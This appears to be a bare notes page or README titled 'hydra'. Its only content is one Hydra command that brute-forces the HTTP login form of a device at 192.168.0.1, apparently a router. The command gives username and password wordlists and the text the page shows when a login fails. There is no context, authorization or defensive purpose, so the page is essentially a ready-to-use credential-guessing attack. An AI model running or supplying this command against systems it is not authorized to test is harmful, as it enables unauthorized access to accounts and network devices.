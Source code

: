 # hydra


hydra 192.168.0.1 http-post-form "/login.htm:username=^USER^&password=^PASS^&Login=submit:The password is incorrect, please try again." -L user.txt -P user.txt -f -V -t 2
